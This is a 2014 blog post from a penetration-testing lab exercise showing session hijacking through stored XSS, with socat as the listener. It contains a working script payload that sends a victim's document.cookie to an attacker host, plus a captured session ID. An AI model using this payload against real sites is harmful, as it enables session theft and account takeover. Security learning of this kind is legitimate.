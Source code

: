 ```yaml
---
layout: post
title: Hijacking sessions using socat
date: '2014-02-11T10:23:00.001-07:00'
author: Sanjiv Kawa
tags:
- socat
- XSS
- Web Application
- netcat
- OWASP
- pentesterlabs
- session hijacking
- Penetration Testing
- cookie manager
comments: true
---
```


Recently I've been working through pentesterlabs <a href="https://pentesterlab.com/exercises/">exercises</a> to learn a bit more about identifying and exploiting security flaws in web applications.

During one of the labs I came across an awesome tool called <a href="http://freecode.com/projects/socat">socat</a> this tool has the ability to listen to multiple connections and act as a TCP relay port. Netcat does have similar functionality, however it will stop after the first connection, whereas socat will keep forking.

socat can be configured to echo HTTP GET requests, this is particularly useful if we want to view session cookies in the HTTP GET header.

Lets say we wanted to steal a session cookie from a victim, possibly even the administrator of a web page. A fairly common way to do this is to find a persistent XSS flaw in the web app. This is what we could do:

First locate the XSS flaw, then drop the following Script tag which write an Image tag to the web page.

{% highlight css %}
<script>document.write('<img src="http://192.168.117.129/?'+document.cookie+'"/>');</script>
{% endhighlight %}

When a victim visits the web page, the image tag will be loaded. The image tags URL grabs the victims cookie and as a result, it will be sent to the malicious server located at .129.

In the mean time on .129 we have an instance of socat running listening on port 80 for HTTP GET requests.

<figure>
  <center>
    <img src="https://4.bp.blogspot.com/-SR5TcGxQHJQ/UvpUmE6nKuI/AAAAAAAABho/Q-s-dDRqSXo/s1600/3.PNG">
  </center>
</figure>

The victims Session ID `qsp5uk0n9m6ctf568e928u5jc2` was passed along, and from here we can easily hijack their session using something like cookie manager:

<figure>
  <center>
    <img src="https://4.bp.blogspot.com/-zQZvV3Bwlw8/UvpVfFjc-8I/AAAAAAAABhw/l773AWWvHcg/s1600/4.PNG">
  </center>
</figure>

So, what can be done to <a href="http://tinyurl.com/bmmwzf">mitigate</a> this? Without getting overly technical good start would be to use secure/safe coding practices and implementing adequate XSS filters.

Ultimately, using Image tags to grab Session ID's isn't exactly new, in fact, most modern web pages have decent XSS filters in place to prevent users sessions from getting hijacked. The whole point of this was just to show you how cool socat is and what could happen if there is an XSS vulnerability on your web site.
